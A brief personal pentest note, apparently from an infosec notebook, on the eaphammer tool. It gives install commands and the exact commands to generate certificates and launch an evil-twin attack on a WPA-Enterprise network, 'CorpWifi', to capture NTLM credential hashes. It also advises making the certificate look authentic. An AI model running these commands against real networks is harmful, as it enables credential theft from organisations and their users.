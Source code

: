 ```yaml
---
Name: eaphammer
Platform: Linux
tags:
  - Resources
  - infosec
---
```

GitHub: https://github.com/s0lst1c3/eaphammer

------

- Allows you to attack enterprise networks and capture WPE NTLM hashes
- Evil twin but for WPE and is very useful since Radius is used we can capture NTLM hashes

To Install:

```ruby
git clone https://github.com/s0lst1c3/eaphammer.git
./kali-setup
```

To setup and launch attack:

```ruby
# generate certificates
./eaphammer --cert-wizard

# launch attack
./eaphammer -i wlan0 --channel 4 --auth wpa-eap --essid CorpWifi --creds
```

Pretty straight forward. Certificate has to be modified to be more authentic and look as close as possible to the enterprise.

Some general WPA-Enterprise Resources:

- https://pwn.no0.be/exploitation/wifi/wpa_enterprise/
- https://ppn.snovvcrash.rocks/pentest/wi-fi/wpa-wpa2/enterprise
- https://adam-toscher.medium.com/top-5-ways-i-gained-access-to-your-corporate-wireless-network-lo0tbo0ty-karma-edition-f72e7995aef2
- https://xploitlab.com/eaphammer-targeted-evil-twin-attacks-against-wpa2-enterprise-networks/